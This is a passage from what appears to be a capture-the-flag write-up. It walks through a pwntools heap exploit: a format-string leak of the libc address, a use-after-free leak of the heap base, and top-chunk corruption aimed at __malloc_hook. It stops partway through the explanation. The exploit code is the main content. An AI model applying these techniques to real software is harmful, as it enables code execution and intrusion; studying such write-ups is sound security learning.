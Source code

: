 ```python
p.recvuntil(b'>> ')  
p.sendline(b'%13$p')  
p.recvuntil('There is no ')  
  
libc_leak = p.recvline().split(b' ')[0]  
libc_leak = int(libc_leak[2:], 16)  
libc.address = libc_leak - 0x21c87
```

### Step 3: 
Similar to the above step, we need to interact with the program to exploit the UAF bug and get our heap base address. We do so by sending `5` to delete our player's class, and then sending 3 to display our stats. We can parse the recieved line and grab the heap address. We know from our previous recon that the recieved address is the pointer to the previously allocated chunk at this point in the program, the heap layout will always be the same, so we can use a static offset to get back to the heap base.

```python
p.recvuntil(b'>> ')  
p.sendline(b'5')  
p.recvuntil(b'>> ')  
p.sendline(b'3')  
p.recvuntil(b'Class: ')  
  
heap = p.recvline()[:-1]  
heap = int.from_bytes(heap, 'little') - 4800 - 0x10
```

### Step 4: 
Now it's time to start the heap exploitation process. To make matters simplier, we can write a wrapper around the craft sword program interaction. 
```python
def malloc(size, data):  
    p.recvuntil(b'>> ')  
    p.sendline(b'1')  
    p.recvuntil(b'>> ')  
    p.sendline(str(size))  
    p.recvuntil(b'>> ')  
    p.sendline(data)
```

Now we need to corrupt the top chunk size. We can do this programatically the same way we did manually earlier:

```python
malloc(40, b'\x41'*47)
```

Next, we want to malloc all the way up to just before `__malloc_hook`. We can do so by doing the following: 
`__malloc_hook address - (heap base + already allocated space) - 0x10`. Looking at the current state of our heap at this point in the exploit, we see the following:
